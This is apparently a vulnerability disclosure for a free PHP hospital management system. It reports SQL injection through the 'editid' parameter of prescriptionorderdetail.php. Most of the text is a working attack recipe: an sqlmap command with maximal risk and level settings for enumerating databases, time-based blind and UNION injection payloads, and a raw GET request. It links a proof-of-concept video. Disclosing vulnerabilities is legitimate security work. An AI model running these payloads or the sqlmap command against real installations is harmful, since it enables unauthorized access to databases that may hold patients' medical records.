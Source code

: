 **[Hospital-Management-System v1.0-SQLi-2](https://itsourcecode.com/free-projects/php-project/hospital-management-system-in-php-with-source-code/)**
---

[Vendor](https://itsourcecode.com/author/unguardable/)
---

![Snipaste_2022-11-05_04-51-46](https://user-images.githubusercontent.com/86427788/200073296-d5708d63-0220-4285-ac3c-97f8185d5352.png)


### Description:
---
The vulnerability page is ```prescriptionorderdetail.php```

```http://your-ip/hms/prescriptionorderdetail.php```


Hospital-Management-System v1.0  

The ```editid``` parameter in the ```prescriptionorderdetail.php``` page appears to be vulnerable to SQL injection attacks.

[+]sqlmap:


python sqlmap.py -r `Your post packet.txt` --random-agent --risk=3 --level=3 -dbs --batch

[+] Payloads:

```
Parameter: editid (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: editid=1' AND (SELECT 5263 FROM (SELECT(SLEEP(5)))hjmA)-- DDqR

    Type: UNION query
    Title: Generic UNION query (random number) - 7 columns
    Payload: editid=1' UNION ALL SELECT 5151,5151,5151,5151,CONCAT(0x7176787a71,0x434e63636d5548486757786e4d65674d6d465142434c634858734d575a586a51774551557a6a6375,0x71626b6271),5151,5151--
```

[+]GET request package

```
GET /HMS/prescriptionorderdetail.php?editid=1 HTTP/1.1
Host: 192.168.92.3
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
### In action:
---

![Snipaste_2022-11-05_05-01-29](https://user-images.githubusercontent.com/86427788/200074116-8f3e8d3e-59a0-48c4-ae9c-abccf232e01f.png)


### Proof and Exploit:
---

https://user-images.githubusercontent.com/86427788/200102284-a63bdf27-4527-467a-903a-eb57057e87c5.mp4



